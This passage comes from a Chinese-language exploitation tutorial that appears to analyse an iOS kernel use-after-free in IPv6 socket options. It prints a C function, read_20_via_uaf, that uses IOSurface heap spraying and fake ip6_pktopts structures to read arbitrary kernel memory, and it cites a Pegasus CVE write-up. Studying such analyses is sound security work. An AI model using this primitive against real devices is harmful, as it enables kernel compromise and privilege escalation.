 如果是特定值说明这个漏洞Socket已经成功喷上了我们构造的数据，再通过函数`getsockopt()`读取结构体变量`ip6po_pktinfo`的值即可泄露出构造地址的数据，结构体`in6_pktinfo`的大小为20字节，所以作者实现了函数`read_20_via_uaf()`用于泄露指定地址的数据

```c
void* read_20_via_uaf(uint64_t addr) {
    int sockets[128];
    for (int i = 0; i < 128; i++) {
        sockets[i] = get_socket_with_dangling_options();
    }
    struct ip6_pktopts *fake_opts = calloc(1, sizeof(struct ip6_pktopts));
    fake_opts->ip6po_minmtu = 0x41424344; // 设置特征值
    *(uint32_t*)((uint64_t)fake_opts + 164) = 0x41424344;
    fake_opts->ip6po_pktinfo = (struct in6_pktinfo*)addr; // 设置要读的内核地址
    bool found = false;
    int found_at = -1;
    for (int i = 0; i < 20; i++) {
        spray_IOSurface((void *)fake_opts, sizeof(struct ip6_pktopts));  // 堆喷
        for (int j = 0; j < 128; j++) {
            int minmtu = -1;
            get_minmtu(sockets[j], &minmtu);
            if (minmtu == 0x41424344) { // 逐个检查特征值，发现就跳出
                found_at = j; // save its index
                found = true;
                break;
            }
        }
        if (found) break;
    }
    free(fake_opts);
    if (!found) {
        printf("[-] Failed to read kernel\n");
        return 0;
    }
    // 把其余的Socket都关闭
    for (int i = 0; i < 128; i++) {
        if (i != found_at) {
            close(sockets[i]);
        }
    }
    // 通过函数getsockopt()获取fake_opts->ip6po_pktinfo的数据
    void *buf = malloc(sizeof(struct in6_pktinfo));
    get_pktinfo(sockets[found_at], (struct in6_pktinfo *)buf);
    close(sockets[found_at]);
    return buf;
}
```

如何构造任意读的原语方法有了，剩下的关键就是如何将构造好的数据堆喷到`inp->in6p_outputopts`，我们来学习一种新的堆喷方式：利用`IOSurface`进行堆风水

关于序列化与反序列化相关的资料大家可以参考这篇文章的第二段`Overview of OSUnserializeBinary`，写的非常详细

-   [Analysis and exploitation of Pegasus kernel vulnerabilities (CVE-2016-4655 / CVE-2016-4656)](http://jndok.github.io/2016/10/04/pegasus-writeup/)
